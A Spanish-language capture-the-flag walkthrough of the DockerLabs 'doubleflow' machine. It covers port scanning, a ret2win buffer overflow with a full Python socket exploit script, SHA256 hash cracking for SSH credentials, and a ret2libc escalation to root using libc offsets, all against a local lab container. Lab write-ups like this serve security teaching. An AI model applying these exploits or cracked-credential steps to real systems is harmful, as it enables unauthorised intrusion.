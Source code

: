 nmap: 80,22,39817

![image](https://github.com/user-attachments/assets/54f701a3-20af-4648-99dc-0d7c5ec12fcf)

---
en la pagina aparece "esta pagina no puede ser hackeada"
y si entramos por el puerto 39817, 

nos aparece: contraseña: Denegado

![image](https://github.com/user-attachments/assets/2cf50a40-fba4-402c-aceb-34b2284bfa50)

si hacemos un gobuster no aparece:

     - app1

Nos descarga un binario
le damos los permisos y ejecutamos, ahora nos conectamos
> ./app1

![image](https://github.com/user-attachments/assets/8c5fdd84-6725-473a-91ad-857f3bc35f50)

en nuestra terminal conectamos:
 
    telnet 127.0.0.1 17562
    
 y nos pedirá escribir algo, y al colocar cualquier cosa se cerrara.

intentare probar si es posible un overflow generandolo:
seguimos los pasos: https://github.com/4bytess/pattern_generator

      -python3 patter.py -m generate -v 50

nos dio: a00a01a02a03a04a05a06a07a08a10a11a12a13a14a15a16a1

![image](https://github.com/user-attachments/assets/63783b1f-22e5-4991-bd51-40d7f774cfd9)

lanzaremos el mismo comando pero con 500 y volvemos a intentar saturar. 

![image](https://github.com/user-attachments/assets/9189ce59-2668-4361-9128-ad1a1f65dbba)

entonces se satura como vemos. 

ahora lanzamos: 

>  python3 pattern.py -m offset -v b14b15b1

nos da: offset: 282

![[dockerlabs/dificil/doubleflow/test5.png]]

lanzamos: 

     gdb -q app1 

y volvemos a lanzar los 500 que nos dio y nos dará un valor. 

![[dockerlabs/dificil/doubleflow/test7.png]]

entonces nos da el valor: 0x000000000040142b
lanzamos ahí mismo un: ret
y nos dará: 0x3262363262353262

nos mostrara la seguridad que tiene el binario
y aparece: NX Enabled

Vemos que solo tiene NX. No tiene canarios ni PIE, es decir que podemos sobrescribir el stack pero no ejecutar shellcode en el stack. Además las direcciones del código del binario son estáticas, por lo que se puede hacer un buffer overflow de tipo ret2win, en donde sobrescribimos el EIP con la dirección de una función que existe en el binario que nunca se llama de por sí 

ahora abrimos otra vez

> gdb app1

y lanzamos: info functions

hay uno llamado "secret function", lo que intentare hacer un overflow hacia ese archivo en especifico.


entonces con el valor que obtuvimos lo pasamos al valor ASCII así: 

     echo "3262363262353262" | xxd -r -p

Nos queda el valor de: b25b26b2

![[dockerlabs/dificil/doubleflow/test8.png]]

ahora lanzamos:
> python3 pattern.py -m offset -v b25b26b2

nos da: offset: 312

![[dockerlabs/dificil/doubleflow/test9.png]]

ahora modificamos un código que vaya hacia la carpeta o archivo "secret function".

---
#!/usr/bin/python3

from pwn import p64
import socket


payload = b'A' * 312 + p64(0x00000000004011b6)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 17562))  # Dirección y puerto del servicio
    print("[+] Conexión establecida con el servicio")

    
banner = sock.recv(1024)
print(f"[+] Banner recibido: {banner.decode(errors='ignore')}")

sock.send(payload + b'\r\n')
print("[+] Payload enviado")

except ConnectionRefusedError:
    print("[-] No se pudo conectar al servicio. Verifica que el servicio está activo.")
except Exception as e:
    print(f"[-] Error: {e}")

finally:
    # Cerramos el socket
    sock.close()
    print("[+] Conexión cerrada")

---

lo lanzamos: python3 exploit.py y dejamos en escucha "./app1" 
al lanzarlo nos da:

>02e5e6ea15b5d3088af6edf49269a7221eb88dc32747420dc2e482110f649deb

![[dockerlabs/dificil/doubleflow/test10.png]]

esta en sha256 ahora lo mandamos a: https://crackstation.net/
y nos da: tiggerjake

![[dockerlabs/dificil/doubleflow/test11.png]]

ahora nos conectamos por el puerto 39817

telnet 172.17.0.2 39817 colocamos la contraseña y nos 

 ![[dockerlabs/dificil/doubleflow/test12.png]]

lo pasamos otra vez por la pagina por el sha256 y nos da:

    plasticfloor17

![[dockerlabs/dificil/doubleflow/test13.png]]

entramos al usuario pepe por el puerto 22

![[dockerlabs/dificil/doubleflow/test14.png]]

vemos que dentro de pepe hay dos app mas

    - app2 y 3

igual que con el app1 solo tiene protección NX, o sea que no podemos ejecutar shellcodes
al listar las funciones que tiene definidas el binario, solo esta la función main, por lo que no se podría hacer un ret2win, pero al ejecutar ldd ./app3 en la maquina victima, vemos que la dirección base de libc.so.6 es siempre la misma. por lo que no hay ASLR. así que es mas fácil atacar a "ret2libc" o sea hacer un ataque buffer overflow y llamar la función "system()" y como parámetro "/bin/sh". 

lanzamos:
>readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"

y nos da:
> 1023: 000000000004c490    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5

para sacar el offset de la cadena "/bin/sh", ejecutamos:
> strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"

y nos da: 
>196031 /bin/sh

![[dockerlabs/dificil/doubleflow/test15.png]]

Ahora ya tenemos los offsets de system() y "/bin/sh". Pero si queremos pasar "/bin/sh" como parámetro a system() en el buffer overflow, tenemos que meter en el registro RDI un puntero a la cadena "/bin/sh" y para meter ese valor en RDI necesitamos encontrar dentro del binario app3 una instrucción pop rdi, para meter un valor del stack en el RDI. 

entonces nos pasamos el "app3" a nuestra terminal y probamos con gdb. 
entonces ejecutamos 

     gdb -q app3 

y les escribimos alguna letra para que de el mismo error:

![[dockerlabs/dificil/doubleflow/test16.png]]

nos dio: 

     0x0000000000401189
     0x4141414141414141

entonces queda ver que protección tiene, aqui se busca el valor de ASRL si se encuentra habilitado. 

![[dockerlabs/dificil/doubleflow/test17.png]]

contiene 0  o sea que esta deshabilitada. aunque contiene la NX activa que es lo mismo que la anterior. 

tomamos o creamos un código python que nos sirva como exploit.  y el código se basara para este código que nos entrega la app3

![[dockerlabs/dificil/doubleflow/test18.png]]


La dirección de retorno vale 0x3235613135613035. Para pasarlo a texto hacemos `unhex 3235613135613035 | rev`. que es cambiarlo a valor ASCII Sale que es 50a51a52. Entonces hacemos `pattern.py -m offset -v 50a51a52` y nos dice que el offset es 136.

entonces como nombre, tomaremos un código python o se creara uno ahora ejecutamos el exploit en la máquina víctima en el directorio /home/pepe:

![[dockerlabs/dificil/doubleflow/test19.png]]

y somos root! 
